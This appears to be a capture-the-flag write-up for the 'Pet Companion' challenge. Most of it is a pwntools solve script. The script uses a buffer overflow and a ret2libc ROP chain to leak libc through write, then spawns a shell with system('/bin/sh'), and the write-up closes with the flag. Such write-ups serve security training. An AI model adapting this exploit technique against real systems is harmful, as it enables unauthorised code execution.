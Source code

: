 # Pet Companion

***Tags:*** #ret2libc 
## Initial Analysis
## Solution
This is pretty straightforward ROP chain where we leverage the buffer overflow to control the flow of program execution. What we should do:
- call write to leak the address of write
- return back to main
- call system(/bin/sh)

## Solve Script
``` python
from pwn import *
from ctfkit.bp import *
from ctfkit.calculators import OffsetCalculator

context.binary = 'pet_companion'
context.log_level = 'error'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

# gadgets
g_pop_rdi = 0x0400743
g_pop_rsi_r15 = 0x400741
g_ret = 0x4004de

# sections
got_write = 0x600fd8
plt_write = 0x4004f0

# libc
libc_bin_sh = 0x1b3d88
libc_system = 0x4f420
libc_write = 0x1100f0
libc_start_main = 0x400520

def main():
  proc = get_process()

  # leak the address for write, and reset to main
  payload = b''.join([
    b'A'*0x48,
    p64(g_pop_rsi_r15),
    p64(got_write),
    p64(0),
    p64(plt_write),
    p64(libc_start_main)
  ])

  proc.sendlineafter(b'Set your pet companion\'s current status: ', payload)
  proc.recvuntil(b'Configuring...\n\n')
  leak = int.from_bytes(proc.recv(8).strip(), 'little')

  # calculate libc base
  libc_off = OffsetCalculator(0x0, libc_write, leak)
  off_libc_bin_sh = libc_off.get(libc_bin_sh)
  off_libc_system = libc_off.get(libc_system)

  # call system(/bin/sh)
  payload = b''.join([
    b'A'*0x48,
    p64(g_pop_rdi),
    p64(off_libc_bin_sh),
    p64(g_ret), # needed for alignment
    p64(off_libc_system)
  ])
  proc.sendlineafter(b'Set your pet companion\'s current status: ', payload)
  proc.interactive()

if __name__ == '__main__':
  parse_args()
  main()
```

Flag: HTB{c0nf1gur3_w3r_d0g}